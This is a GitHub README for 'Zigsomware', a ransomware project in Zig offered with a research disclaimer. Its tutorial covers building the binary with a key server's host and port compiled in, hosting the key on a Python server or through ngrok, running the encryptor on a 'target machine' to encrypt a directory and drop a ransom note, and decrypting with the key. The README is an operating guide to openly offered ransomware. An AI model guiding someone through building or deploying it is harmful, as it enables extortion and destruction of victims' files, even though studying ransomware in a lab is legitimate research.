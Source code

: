 # :t-rex: Zigsomware :t-rex:

Zigsomware is a ransomware example written in Zig. This is not practical and is only for research purposes of Zig implementation.

<br />

## Features

- Encrypts files with XChaCha20-Poly1305.
- Downloads a encryption key from a specified server.
- Decrypts the encrypted files.

<br />

## Requirements

- Linux
- Zig version 0.14.0

<br />

> ## ATTENTION

> - The project aims to help security research and educational purposes. Do not use it on any systems not under your control.
> - Don't use it on your personal machine. Instead, use it on your test environment such as VM.
> - Anyway, use it at your own risk.

<br />

# Tutorial

## 1. Install

First clone the repository:

```sh
git clone https://github.com/hideckies/zigsomware.git
cd zigsomware
```

And build the project with specified options:

```sh
# -DSERVER_HOST: Server address
# -DSERVER_PORT: Server port
# -DSERVER_PATH: the url path of the server to download a encryption key.
zig build -DSERVER_HOST=127.0.0.1 -DSERVER_PORT=4444 -DSERVER_PATH=/
```

As above, we need to specify your server host/port/path for allowing the Zigsomware to download a encryption key. We can also set other servers such as `ngrok`.  
After that, the executables are generated under `zig-out` directory:

```sh
file ./zig-out/x86_64-linux/zigsomware
file ./zig-out/x86_64-windows/zigsomware.exe
```

## 2. Generate Encryption Key & Host It

Next, generate an encryption key to be used for encryption/decryption.  
To generate it, run the following command:

```sh
./zig-out/x86_64-linux/zigsomware --genkey
# output example: cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY=
```

We need to host this key in the server that you have specified when building: `https://<SERVER_HOST>:<SERVER_PORT>/<SERVER_PATH>`.  
For testing purposes, I created a simple API server (`server/server.py`) so use it this time:

```sh
cd server
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
python3 server.py --port 4444 --key cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY=
```

As above, we need to set the `--port` and the `--key`.  
Then this server hosts the encryption key at the root path (`/`). Our `Zigsomware` will donwload the encryption key from the server.  

## 3. Run Zigsomware (Encryption)

On the target machine, execute the `zigsomware` with the specified target directory to encrypt:

```sh
# -e: Encryption
./zigsomware -e ./test_dir/
```

When executed, the `zigsomware` downloads the encryption key from the server that you have specified, then encrypts files udner `./test_dir/` directory and appends ransom extensions (`.zigsom`) to each file.
A ransom note (`README.txt`) has also been created in the directory.

## 4. Decryption

To decrypt the files, run `zigsomware` with `-d` flag and set a **Base64-encoded encryption key** that was sent to our server during encryption:

```sh
# -d: Decrypt
# -k: Base64-encoded encryption key
./zigsomware -d -k cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY= ./test_dir/
```
